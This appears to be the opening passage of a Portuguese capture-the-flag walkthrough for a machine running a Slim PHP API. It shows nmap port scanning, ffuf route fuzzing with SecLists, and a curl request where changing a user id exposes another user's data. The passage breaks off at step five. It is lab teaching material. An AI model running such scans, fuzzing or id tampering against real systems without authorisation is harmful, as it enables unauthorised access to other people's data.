 ##  **Cenário: máquina CTF com API Slim PHP**

---

##  **PASSO 1 – Enumeração com Nmap**

**Objetivo**: Descobrir portas e serviços.

```bash
nmap -sC -sV -p- -T4 <IP-ALVO>
```

Vai encontrar um serviço web rodando, geralmente na porta `80`.

---

##  **PASSO 2 – Acesso ao site**

Ao abrir no navegador `http://<IP-ALVO>/`, o site mostra:

```
{"message":"Route not found"}
```

Isso indica que é uma **API RESTful**.  
Precisamos descobrir as rotas.

---

##  **PASSO 3 – Fuzzing com SecLists (Descobrir rotas)**

```bash
ffuf -u http://<IP-ALVO>/FUZZ -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt
```

 Descobrimos uma rota como:

```
/_ul/usuarios/{id}
```

---

##  **PASSO 4 – Teste manual da rota**

```bash
curl http://<IP-ALVO>/_ul/usuarios/1
```

Você recebe um JSON com os dados do usuário 1.  
Testando `id=2`, ele revela uma **flag**.

---

##  **PASSO 5 – Entendendo o backend (Slim Framework)**
